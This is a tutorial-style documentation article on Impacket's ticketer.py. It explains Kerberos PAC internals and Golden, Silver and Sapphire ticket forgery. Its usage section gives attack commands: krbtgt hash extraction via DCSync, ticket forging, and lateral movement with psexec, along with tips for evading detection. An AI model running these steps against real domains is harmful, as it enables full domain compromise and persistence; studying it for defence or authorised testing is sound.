



title: "ticketer.py"
script: "examples/ticketer.py"
category: "Kerberos Attacks"
status: "Published"
protocols:
  - Kerberos
  - MS-KILE
  - MS-PAC
ms_specs:
  - MS-KILE
  - MS-PAC
  - RFC 4120
  - RFC 4757
mitre_techniques:
  - T1558.001
  - T1558.002
  - T1078.002
  - T1550.003
  - T1098
auth_types:
  - offline_forgery
  - krbtgt_key
  - service_account_key
  - sapphire_via_authenticated_user
tags:
  - impacket
  - impacket/examples
  - category/kerberos_attacks
  - status/published
  - protocol/kerberos
  - protocol/pac
  - technique/golden_ticket
  - technique/silver_ticket
  - technique/sapphire_ticket
  - technique/persistence
  - technique/credential_access
  - mitre/T1558/001
  - mitre/T1558/002
  - mitre/T1078/002
  - mitre/T1550/003
  - mitre/T1098
aliases:
  - ticketer
  - impacket-ticketer
  - golden_ticket
  - silver_ticket
  - sapphire_ticket
  - kerberos_ticket_forgery


# ticketer.py

> **One line summary:** Forges Kerberos tickets entirely offline, using only the stolen long term key of either the `krbtgt` account (Golden Ticket) or a service account (Silver Ticket), allowing the attacker to impersonate any user with any privileges in the target domain without ever contacting the KDC during ticket creation.

| Field | Value |
|:---|:---|
| Script | `examples/ticketer.py` |
| Category | Kerberos Attacks |
| Status | Published |
| Primary protocols | Kerberos, MS-PAC |
| Primary Microsoft specifications | `[MS-KILE]`, `[MS-PAC]`, RFC 4120, RFC 4757 |
| MITRE ATT&CK techniques | T1558.001 Golden Ticket, T1558.002 Silver Ticket, T1078.002 Domain Accounts, T1550.003 Pass the Ticket, T1098 Account Manipulation |
| Authentication types supported | Offline forgery from `krbtgt` key (Golden), offline forgery from service account key (Silver), authenticated forgery from `krbtgt` key with PAC of real user (Sapphire) |
| First appearance in Impacket | 2014 (immediately following Benjamin Delpy's mimikatz `kerberos::golden` implementation) |
| Original authors | Alberto Solino (`@agsolino`), with significant later contributions by `@Dramelac` for post 2021 PAC compliance |


## Prerequisites

This article builds heavily on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for SIDs, RIDs, and well known RIDs (especially the 500, 502, 512 through 519 entries).
- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for the Kerberos foundations: AS exchange, TGS exchange, AP exchange, encryption types, and the brief introduction to the PAC.
- [`getTGT.py`](getTGT.md) for the ccache file format, the `KRB5CCNAME` environment variable, and the over pass the hash workflow.

This is the first article that takes the PAC seriously. The introduction in [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md#the-pac) was a one paragraph teaser. The protocol theory section here goes deep on the PAC because forged tickets succeed or fail based on whether their PAC structures are correct.


## What it does

`ticketer.py` constructs valid Kerberos tickets from scratch on the attacker's local machine, using only knowledge of a long term cryptographic key, and writes them as ccache files ready for use with any `-k` aware tool.

The tool produces three categories of forged ticket:

- **Golden Ticket.** A forged Ticket Granting Ticket signed with the `krbtgt` account's key. Because the KDC trusts everything signed with that key, a Golden Ticket lets the attacker present themselves as any user with any group memberships when requesting Service Tickets from the domain controller. This is essentially permanent domain admin until the `krbtgt` password is rotated, which most organizations have never done.
- **Silver Ticket.** A forged Service Ticket signed with a specific service account's key. The forged ticket grants access to that one specific service on that one specific host, but it does so without any KDC interaction at the moment of use. The target service decrypts the ticket with its own key, validates the signature, and grants access. The KDC never sees the request.
- **Sapphire Ticket.** A Golden Ticket whose PAC is sourced from a legitimate ticket obtained for a real user. Introduced as a stealthier variant after Microsoft's 2021 PAC validation patch made simple Golden Tickets easier to detect through PAC anomalies. Requires both the `krbtgt` key and a valid domain credential to use as the PAC source.

Each forged ticket is a complete, valid Kerberos credential. Using it is indistinguishable at the protocol level from using a legitimate ticket, except for the artifacts and anomalies described in the detection section.

The tool generates no network traffic during forgery (with the exception of the Sapphire variant, which makes a single S4U2Self request to obtain the source PAC). The forging operation is purely local mathematics: build the data structures, sign them with the supplied key, encrypt them with the supplied key, write the result to disk. Anyone with the right keys can do this. The protocol provides no defense against it because the protocol assumes those keys are kept secret.


## Why it exists

Benjamin Delpy (`@gentilkiwi`) released the original Golden Ticket implementation in mimikatz in 2014. The discovery flowed naturally from his earlier work extracting Kerberos keys from LSASS memory. Once you can extract the `krbtgt` key, the implications were obvious to anyone with deep knowledge of Kerberos: you can sign anything as the KDC, and the KDC trusts itself absolutely.

Sean Metcalf (`@PyroTek3`) wrote the most accessible early explanation of the technique on the AD Security blog, popularizing the term "Golden Ticket" in the security community. The term stuck because the analogy was perfect: a single key that opens every door, indefinitely.

Alberto Solino added the Python equivalent to Impacket as `ticketer.py` so that the attack could be performed from any operating system without depending on Windows or mimikatz. The implementation was straightforward because the underlying mathematics is just standard Kerberos.

Silver Tickets were a natural extension. If Golden Tickets work because the `krbtgt` key signs the ticket, then service account keys can sign their own service tickets. The catch was that a Silver Ticket only gets you access to the one service whose key you have. The benefit was that no KDC interaction happens at all when the forged ticket is used, which makes Silver Tickets significantly stealthier.

The technique remained essentially unchanged from 2014 until November 2021. That month, Microsoft released **KB5008380** to patch CVE-2021-42287 (a separate vulnerability that allowed sAMAccountName spoofing). The patch added two new mandatory PAC structures: `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR`. Tickets without those structures, or with `PAC_REQUESTOR` data that did not match a real account in the directory, started getting rejected by patched KDCs. Suddenly, the classic "ticketer for user Batman" approach stopped working.

`@Dramelac` opened pull request #1391 in early 2023 that updated `ticketer.py` to generate the new PAC structures. The post 2021 forgery workflow now requires either:

- A real username with a real RID matching what is in Active Directory (modern PAC mode), or
- The `-old-pac` flag explicitly opting out of the new structures (only useful against unpatched KDCs).

The Sapphire Ticket variant was added shortly after as a way to sidestep the PAC validation problem entirely: instead of constructing a fake PAC, ask the KDC for a real PAC for a real user, then wrap that PAC inside a forged ticket signed with the `krbtgt` key. The result is a ticket that looks completely legitimate to PAC validation and that grants whatever privileges the source user actually has.

The arms race continues. Defender capabilities improve, attacker techniques adapt. `ticketer.py` is updated as both sides evolve, which is why the article emphasizes the post 2021 mode as the default and treats the old style as a legacy or testing capability.


## The protocol theory

The Kerberos foundations are in [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md). What follows is the new material that ticket forgery depends on, focused tightly on the PAC, the trust model that makes forgery possible, and the differences between ticket types.

### The PAC in detail

The Privilege Attribute Certificate is a Microsoft specific extension to Kerberos defined in `[MS-PAC]`. Every ticket issued by a Windows KDC contains a PAC structure inside the encrypted portion of the ticket. The PAC is what tells the receiving service who the client is, what groups the client belongs to, and what privileges the client should be granted.

The PAC is a `PACTYPE` structure containing a variable number of `PAC_INFO_BUFFER` entries, each of which holds a specific kind of authorization data. The most important buffer types for ticket forgery:

| Buffer type | Purpose |
|:---|:---|
| `PAC_LOGON_INFO` (type `1`) | The core authorization data: user SID, primary group SID, list of group SIDs, account name, logon time, password set time. This is the structure attackers manipulate to claim group memberships. |
| `PAC_CLIENT_INFO_TYPE` (type `10`) | Client name and timestamp. Validated against the ticket itself. |
| `PAC_SERVER_CHECKSUM` (type `6`) | A signature over the PAC computed with the **service account's key**. |
| `PAC_PRIVSVR_CHECKSUM` (type `7`) | A signature over the server checksum computed with the **`krbtgt` account's key**. This is the KDC signature. |
| `PAC_ATTRIBUTES_INFO` (type `17`) | Added by KB5008380 (November 2021). Indicates whether the PAC was implicitly or explicitly requested. |
| `PAC_REQUESTOR` (type `18`) | Added by KB5008380. Contains the SID of the account that requested the ticket. Validated against the account name in the ticket. |
| `UPN_DNS_INFO` (type `12`) | User Principal Name and DNS domain name. Important for cross domain scenarios. |

Two additional buffer types relevant to recent versions:

- `PAC_FULL_CHECKSUM` (type `19`) added in some patches as a third signature covering the entire ticket plus PAC.
- `PAC_DELEGATION_INFO` (type `11`) for delegation tickets.

### The PAC trust model

The two signatures in the PAC are the cryptographic anchor of the entire scheme.

When a service receives a Kerberos ticket and wants to validate it:

1. The service decrypts the ticket using its own long term key.
2. The service finds the PAC inside the decrypted ticket.
3. The service verifies the `PAC_SERVER_CHECKSUM` using its own key. This proves the ticket has not been altered since it left the KDC (because only the KDC and the service know the service's key, and the service is presumably not lying to itself).
4. **Optionally**, the service can submit the PAC to a domain controller for verification of the `PAC_PRIVSVR_CHECKSUM`. The DC verifies the signature using the `krbtgt` key. This proves the PAC was actually generated by a domain controller.

Step 4 is the one that matters for forgery. When step 4 happens, only a real ticket from a real KDC will validate. When step 4 is **skipped**, any ticket whose `PAC_SERVER_CHECKSUM` is valid will be accepted, regardless of what the PAC actually contains.

In practice, **most services skip step 4**. The Kerberos specification leaves PAC validation as optional, and the performance cost of an extra round trip to the DC for every authentication discouraged Microsoft from making it the default. SMB, RPC, and most network services do not validate the KDC signature unless explicitly configured to do so. The `ValidateKdcPacSignature` registry setting controls this on a per service basis but it is not widely enabled.

This is the entire reason Silver Tickets work. The attacker has the service's key, can sign the PAC with the service's key, and most services never check whether the KDC actually signed it.

### Golden Ticket trust mechanics

A Golden Ticket is a forged TGT signed with the `krbtgt` account's key. The trust chain is:

1. The attacker uses the Golden Ticket in a `TGS-REQ` to ask the KDC for a Service Ticket.
2. The KDC decrypts the Golden Ticket using its own `krbtgt` key (because TGTs are encrypted with that key).
3. The KDC sees a perfectly valid TGT containing whatever PAC the attacker put inside (claiming to be Domain Admin, for example).
4. The KDC issues a Service Ticket based on that PAC, encrypted with the target service account's key, and including a copy of the PAC.
5. The attacker presents the Service Ticket to the target service.
6. The target service decrypts and accepts it normally.

The KDC issued the Service Ticket. The PAC inside that Service Ticket carries the same group claims the attacker fabricated in the Golden Ticket. Validation of the `PAC_PRIVSVR_CHECKSUM` succeeds because the KDC signed it (the KDC trusted the input). Everything checks out cryptographically.

The fundamental insight: **the krbtgt key is the root of trust for the entire domain**. Whoever holds it can mint any TGT they want. Microsoft's design assumes that key never leaves the domain controllers. When it does (typically through DCSync via [`secretsdump.py`](../03_credential_access/secretsdump.md)), the entire trust model collapses.

### Silver Ticket trust mechanics

A Silver Ticket is a forged Service Ticket signed with the target service's key. The trust chain is:

1. The attacker uses the Silver Ticket in an `AP-REQ` directly to the target service.
2. The target service decrypts the ticket using its own key.
3. The target service verifies the `PAC_SERVER_CHECKSUM` using its own key. Valid.
4. **Step 4 (KDC signature verification) is typically skipped.** The service trusts the PAC.
5. The service grants access according to the PAC's group claims.

The KDC is never involved. No `TGS-REQ` is issued. No 4769 event fires. The Silver Ticket flows directly from attacker to target service, and the target validates only what it can validate locally.

This is what makes Silver Tickets attractive: stealth. The trade off is scope. A Silver Ticket forged with the SQL service account's key only works against that SQL service. To attack the file server, the attacker needs the file server computer account's key. Each compromised key is one Silver Ticket target. Compare that to the Golden Ticket, which lets one stolen key (the `krbtgt`) authenticate against any service in the domain.

### The November 2021 PAC validations

KB5008380 added `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR` to the mandatory PAC structures and introduced new validations.

The relevant validation is on `PAC_REQUESTOR`. Patched KDCs check that the SID inside `PAC_REQUESTOR` matches the account that owns the user principal name in the ticket. If the ticket says it is for `Administrator@CORP.LOCAL`, the `PAC_REQUESTOR` SID must match the actual `Administrator` account's SID in the directory.

This validation breaks the classic "make up a username" Golden Ticket. Forging a ticket for a fictional `baduser` with RID `12345` no longer works because no such account exists. The KDC checks, finds nothing, rejects the ticket.

The post 2021 forgery rules:

- **Username must exist** in Active Directory.
- **`-user-id` must match** the actual RID of that account.
- **`-extra-sid` and `-groups` can still be fabricated** because those are not cross checked against the directory in the same way. This is what makes the attack still useful: you forge a ticket for a real low privilege user, then claim group memberships that user does not actually have.

The `-old-pac` flag opts out of these new structures and produces pre 2021 style tickets. Useful for testing against unpatched KDCs but not viable for real engagements against current Windows.

### Sapphire Tickets

A Sapphire Ticket sidesteps the PAC validation problem by sourcing its PAC from a real ticket obtained from the KDC.

The flow:

1. The attacker authenticates to the KDC as a low privilege user (any valid credential works).
2. The attacker uses S4U2Self with U2U to obtain a Service Ticket for a high privilege user. This ticket would normally be unusable because the target services would reject it (S4U2Self produces a ticket only valid for the requesting account itself), but the PAC inside it is real and is for the high privilege user.
3. The attacker extracts that PAC.
4. The attacker constructs a new TGT, inserts the real PAC, signs everything with the `krbtgt` key.
5. The result is a Golden Ticket whose PAC is bit for bit identical to what the KDC would have produced for the high privilege user.

Sapphire Tickets pass PAC validation because the PAC is genuinely a PAC the KDC produced. The signatures are forged (by the attacker, because the attacker has the `krbtgt` key) but the contents are real.

`ticketer.py` implements this via the `-impersonate` flag, which requires authenticated access to perform the S4U2Self lookup.

### The Diamond Ticket variation

A Diamond Ticket is conceptually similar to a Sapphire Ticket but operates by modifying a real obtained TGT rather than building a new one. The attacker requests a real TGT for themselves, decrypts it (because they have the `krbtgt` key, they can decrypt any TGT), modifies the PAC's group memberships in place, re encrypts, and presents the modified ticket. The result is indistinguishable from a real TGT in all the metadata fields the KDC normally checks.

`ticketer.py` does not currently implement Diamond Tickets directly. Metasploit's `forge_ticket` module supports `FORGE_DIAMOND` for this purpose. The technique is mentioned here for completeness because the four ticket types (Golden, Silver, Sapphire, Diamond) frequently appear in modern threat intelligence reporting.


## How the tool works internally

The script is longer than most Impacket tools because it implements the entire PAC construction process. The flow for a Golden Ticket:

1. **Argument parsing.** Many flags. The most important: `target` (positional, the username), `-domain`, `-domain-sid`, `-nthash` or `-aesKey`, optionally `-spn` (presence indicates Silver Ticket).

2. **Key derivation.** The supplied key is loaded as a `Key` object suitable for `EncryptionTypes.rc4_hmac` (NT hash) or `EncryptionTypes.aes128_cts_hmac_sha1_96` / `EncryptionTypes.aes256_cts_hmac_sha1_96` (AES key). Key length determines AES variant.

3. **PAC construction.** Each `PAC_INFO_BUFFER` is built from the supplied parameters:
    - `PAC_LOGON_INFO` is populated with the username, RID (from `-user-id`), domain SID, and group RIDs (from `-groups`, defaulting to `513,512,520,518,519`). Optional `-extra-sid` values are added to the `ExtraSids` field.
    - `PAC_CLIENT_INFO_TYPE` is filled with the username and the current timestamp.
    - `UPN_DNS_INFO` is built (with the new `S` flag set when `-extra-pac` is used).
    - `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR` are added unless `-old-pac` is specified. The `PAC_REQUESTOR` SID is constructed from the domain SID plus `-user-id`.
    - `PAC_SERVER_CHECKSUM` and `PAC_PRIVSVR_CHECKSUM` are placeholder zero filled buffers. They will be filled in once everything else is in place.

4. **EncTicketPart construction.** A new `EncTicketPart` ASN.1 structure is built:
    - `flags` set to `forwardable`, `proxiable`, `renewable`, `pre_authent`.
    - `key` is a randomly generated session key (16 bytes for RC4, 16 or 32 for AES).
    - `crealm` is the supplied domain.
    - `cname` is the target username.
    - `transited` is empty.
    - `authtime`, `starttime`, `endtime`, `renew_till` are populated from the current time and `-duration`.
    - `caddr` is left empty.
    - `authorization-data` contains a single `AD-IF-RELEVANT` element wrapping a single `AD-WIN2K-PAC` element containing the encoded PAC.

5. **PAC signing.** With the EncTicketPart populated:
    - The `PAC_SERVER_CHECKSUM` is computed as an HMAC over the encoded PAC using either the `krbtgt` key (for Golden Tickets) or the service account key (for Silver Tickets).
    - The `PAC_PRIVSVR_CHECKSUM` is computed as an HMAC over the `PAC_SERVER_CHECKSUM` using the `krbtgt` key.
    - Both checksums are written back into the PAC structure.

6. **Ticket encryption.** The fully populated `EncTicketPart` (now containing the signed PAC) is serialized to ASN.1 DER and encrypted using the same key. For a Golden Ticket this is the `krbtgt` key. For a Silver Ticket this is the service account's key.

7. **Ticket assembly.** A complete `Ticket` ASN.1 structure is built:
    - `tkt-vno` is `5`.
    - `realm` is the supplied domain.
    - `sname` is `krbtgt/<DOMAIN>` for Golden Tickets, or the supplied SPN for Silver Tickets.
    - `enc-part` contains the encrypted EncTicketPart.

8. **ccache writing.** A `CCache` object is constructed. A `Credential` containing the ticket is added to it. The cache is written to disk as `<username>.ccache`.

9. **Sapphire path (`-impersonate`).** If `-impersonate` was supplied, the tool first authenticates to the KDC using the `-user`, `-password`, `-hashes`, or `-aesKey` flags, then performs an S4U2Self+U2U exchange to obtain a real PAC for the impersonated user. That PAC replaces the synthesized PAC at step 3, and the rest of the flow proceeds normally.

The code is dense but follows a clear pattern: build structures from the bottom up, sign them, encrypt them, package them, write them. Reading the source while holding this outline in mind is the best way to understand exactly what each PAC field contains and why.


## Authentication options

The classic Impacket "four authentication modes" do not apply directly to `ticketer.py` because the tool is not authenticating to anything during forgery. Instead it accepts **key material** as input.

### NT hash (RC4)

```bash
ticketer.py -nthash <krbtgt_or_service_nthash> \
  -domain-sid S-1-5-21-... -domain CORP.LOCAL <username>
```

The supplied NT hash is used directly as the RC4-HMAC key. The resulting ticket is encrypted and signed entirely with RC4. This is the legacy mode and produces tickets with `TicketEncryptionType=0x17` in any subsequent log events, which is one of the detection signals.

### AES key

```bash
ticketer.py -aesKey <krbtgt_or_service_aes_key> \
  -domain-sid S-1-5-21-... -domain CORP.LOCAL <username>
```

The AES key (128 or 256 bit, autodetected by length) is used for both signing and encryption. The resulting ticket uses `TicketEncryptionType=0x11` (AES128) or `0x12` (AES256). Stealthier than RC4 because AES is the default for modern domains, so the ticket blends in.

### Both NT hash and AES key

```bash
ticketer.py -nthash <hash> -aesKey <key> \
  -domain-sid S-1-5-21-... -domain CORP.LOCAL <username>
```

When both are provided, the AES key is used for the actual ticket cryptography and the NT hash is used as a fallback. In practice this combination has limited value; pick one.

### Keytab file (Silver Ticket only)

```bash
ticketer.py -keytab <service.keytab> -spn <SPN> \
  -domain-sid S-1-5-21-... -domain CORP.LOCAL <username>
```

A keytab file containing the service account's keys can be supplied directly. Useful when the keys were exported from a Linux Kerberos integration or from a captured keytab file rather than from `secretsdump.py` output.

### Sapphire mode (authenticated)

```bash
ticketer.py -nthash <krbtgt_nthash> \
  -domain-sid S-1-5-21-... -domain CORP.LOCAL \
  -user alice -password 'S3cret!' \
  -impersonate Administrator <username> -request
```

The `-user` / `-password` / `-hashes` / `-aesKey` flags here authenticate the attacker for the S4U2Self lookup. The `-impersonate` flag specifies the user whose PAC will be sourced. The `-request` flag enables the actual KDC interaction.


## Practical usage

### Prerequisite: extract the krbtgt key

A Golden Ticket requires the `krbtgt` account's NT hash or AES key. Extract it via DCSync with [`secretsdump.py`](../03_credential_access/secretsdump.md), which requires `Replicating Directory Changes` permissions on the domain (typically held by Domain Admins, Enterprise Admins, and explicitly granted accounts):

```bash
secretsdump.py -just-dc-user krbtgt CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Output includes lines like:

```text
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c8d7ddc3...e5a5d3:::
krbtgt:aes256-cts-hmac-sha1-96:a1b2c3d4...e9f0
krbtgt:aes128-cts-hmac-sha1-96:1234567890abcdef1234567890abcdef
```

The third column on the first line is the NT hash. The AES256 and AES128 keys appear on subsequent lines. Use the AES256 key when available; it produces tickets with the encryption type that legitimate modern Windows clients use, which makes them blend in.

### Prerequisite: identify the domain SID

The domain SID is needed for both PAC construction and for `PAC_REQUESTOR` validation. Get it from any of:

```bash
# From lookupsid (any authenticated user)
lookupsid.py CORP.LOCAL/alice:'S3cret!'@dc01.corp.local 0
# Output includes: Domain SID is: S-1-5-21-1170647656-860703057-891382899

# From secretsdump
secretsdump.py CORP.LOCAL/admin:'P@ss'@dc01.corp.local | grep "Domain SID"

# From PowerShell on a domain joined host
(Get-ADDomain).DomainSID.Value
```

### Forge a basic Golden Ticket (modern PAC, real user)

After November 2021 the username and RID must match a real account in the directory. Use `Administrator` and RID 500 for the most reliable target:

```bash
ticketer.py -aesKey a1b2c3d4...e9f0 \
  -domain-sid S-1-5-21-1170647656-860703057-891382899 \
  -domain CORP.LOCAL \
  -user-id 500 \
  Administrator
```

Output:

```text
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for CORP.LOCAL/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Saving ticket in Administrator.ccache
```

Then use it:

```bash
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass CORP.LOCAL/Administrator@dc01.corp.local
```

### Forge a Golden Ticket with custom group memberships

The default group set is `513,512,520,518,519`: Domain Users, Domain Admins, Group Policy Creator Owners, Schema Admins, Enterprise Admins. To use a custom set:

```bash
ticketer.py -aesKey <key> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -user-id 500 \
  -groups 513,512,519 \
  Administrator
```

Most engagements stick with the defaults because they cover the full administrative group set. Custom groups become relevant when targeting specific application servers that check for unusual groups, or when avoiding Deny ACEs that block Domain Admins from logging into specific systems.

### Forge a Golden Ticket for a low privilege real user with elevated claims

This is the modern Golden Ticket pattern. Take a real low privilege user (so PAC validation passes), then claim Domain Admin in the PAC:

```bash
# alice is a regular user with RID 1106
ticketer.py -aesKey <krbtgt_aes_key> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -user-id 1106 \
  -groups 513,512,519 \
  alice
```

The username `alice` exists, the RID `1106` matches her actual account, so `PAC_REQUESTOR` validates. The claimed groups (Domain Admins, Enterprise Admins) are honored by services that do not perform separate authorization checks against the actual directory.

### Limit the lifetime to something realistic

The default `-duration` is `87600` (24 hours times 365 times 10, i.e. 10 years). A 10 year ticket is a detection signal because no legitimate Windows client requests one. For engagement use, set something realistic:

```bash
ticketer.py -aesKey <key> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -user-id 500 \
  -duration 24 \
  Administrator
```

`-duration 24` produces a 24 hour ticket, which matches normal Windows behavior. Anything from a few hours to a day is typical. Even a 7 day ticket is unusual but defensible. A 10 year ticket is absolute proof of forgery.

### Forge a Silver Ticket for SMB on a specific server

```bash
# Need the computer account's NT hash for the target server
# Get it from secretsdump against any DC
secretsdump.py -just-dc-user 'WS01$' CORP.LOCAL/admin:'P@ss'@dc01.corp.local

# Forge a Silver Ticket for CIFS access to WS01
ticketer.py -nthash <ws01_machine_nthash> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -spn cifs/ws01.corp.local \
  -user-id 500 \
  Administrator

export KRB5CCNAME=Administrator.ccache
smbclient.py -k -no-pass CORP.LOCAL/Administrator@ws01.corp.local
```

The Silver Ticket grants access only to `cifs/ws01.corp.local` because it is signed with the WS01 computer account's key. To access SMB on a second server, forge a second Silver Ticket using that server's machine account key.

### Forge a Silver Ticket for MSSQL

```bash
# Service account svc_sql has SPN MSSQLSvc/sql01.corp.local:1433
# Get its NT hash via Kerberoasting + cracking, or via secretsdump
ticketer.py -nthash <svc_sql_nthash> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -spn MSSQLSvc/sql01.corp.local:1433 \
  -user-id 500 \
  Administrator

export KRB5CCNAME=Administrator.ccache
mssqlclient.py -k -no-pass CORP.LOCAL/Administrator@sql01.corp.local
```

The Silver Ticket is signed with the service account's key, not the machine account's key. This is the natural follow up after Kerberoasting yields a service account password.

### Forge a Sapphire Ticket

```bash
ticketer.py -aesKey <krbtgt_aes_key> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -user alice -password 'S3cret!' \
  -impersonate Administrator \
  -request \
  Administrator
```

The tool first authenticates as `alice`, performs S4U2Self+U2U for `Administrator`, captures the resulting PAC, then forges a TGT containing that real PAC signed with the `krbtgt` key. The output ccache is a Golden Ticket whose PAC contents are bit for bit what the KDC would produce for `Administrator` if it were issuing a normal ticket.

### Cross domain attacks with extra SIDs

When forging tickets to use across a domain trust, the `-extra-sid` flag adds SIDs that grant access in foreign domains:

```bash
# Forge a ticket usable in trusted CHILD.CORP.LOCAL via the SID History attribute
ticketer.py -aesKey <krbtgt_aes_key> \
  -domain-sid S-1-5-21-... \
  -domain CORP.LOCAL \
  -user-id 500 \
  -extra-sid S-1-5-21-childdomain-...-519,S-1-5-21-childdomain-...-512 \
  Administrator
```

This is the basis for the SID History injection attack against trusted domains. Combined with knowledge of the trust direction and child domain SIDs, a Golden Ticket forged in the parent can grant Domain Admin in trusted children. The defense is the SID Filtering policy that strips foreign SIDs at the trust boundary, which is enabled by default for newer trusts but not always for legacy ones.

### Use the old PAC structure (testing only)

```bash
ticketer.py -aesKey <key> \
  -domain-sid <sid> -domain CORP.LOCAL \
  -old-pac \
  Batman
```

The `-old-pac` flag skips `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR`. Only useful against pre November 2021 KDCs. Will be rejected by any patched modern Windows. Mentioned for completeness because legacy domains do still exist in some environments.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | Username for the forged ticket. Must exist in AD for modern PAC mode. |
| `-spn <SPN>` | Forge a Silver Ticket for the named service. Omit for Golden Ticket. |
| `-domain <FQDN>` | Domain FQDN. Required. |
| `-domain-sid <SID>` | Domain SID. Required. |
| `-nthash <hash>` | NT hash for signing/encryption. RC4. |
| `-aesKey <hex>` | AES128 or AES256 key. Preferred over `-nthash` for stealth. |
| `-keytab <path>` | Read service keys from a keytab file. Silver Ticket only. |
| `-user-id <RID>` | RID for the target user. Default `500`. Must match real RID for modern PAC. |
| `-groups <RIDs>` | Comma separated group RIDs. Default `513,512,520,518,519`. |
| `-extra-sid <SIDs>` | Additional SIDs in the PAC. Used for cross domain SID injection. |
| `-extra-pac` | Add `UPN_DNS_INFO` extended structures. |
| `-old-pac` | Skip `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR`. Pre 2021 only. |
| `-duration <hours>` | Ticket lifetime in hours. Default `87600` (10 years). Set lower for stealth. |
| `-impersonate <user>` | Sapphire mode. Source PAC from S4U2Self for the named user. Requires `-request` and authentication. |
| `-request` | Enable KDC interaction (needed for Sapphire). |
| `-user`, `-password`, `-hashes` | Authentication for Sapphire mode. |
| `-dc-ip <IP>` | DC address for Sapphire mode. |


## What it looks like on the wire

Forging itself produces **no network traffic**. The entire operation is local. This is what makes Golden and Silver Tickets so dangerous: there is no opportunity for network defenders to detect the creation of the ticket.

Network traffic appears only when the forged ticket is **used**.

### Using a Golden Ticket

The forged TGT goes into the ccache. When a downstream tool (`psexec.py`, `secretsdump.py`, etc.) runs with `-k -no-pass`, the standard Kerberos flow proceeds:

- `TGS-REQ` to the KDC carrying the forged TGT and an authenticator. The KDC decrypts the TGT (with its `krbtgt` key, which the attacker also has, but the KDC does not know that) and treats the contents as authentic.
- `TGS-REP` from the KDC containing a Service Ticket for the requested SPN.
- `AP-REQ` to the target service with the Service Ticket and an authenticator.
- `AP-REP` (optional) confirming mutual authentication.

The `TGS-REQ` step is what generates a **4769 event on the KDC**, which becomes one of the detection signals.

### Using a Silver Ticket

A Silver Ticket skips the KDC entirely. The flow is:

- `AP-REQ` directly to the target service with the forged Service Ticket and an authenticator.
- `AP-REP` confirming.

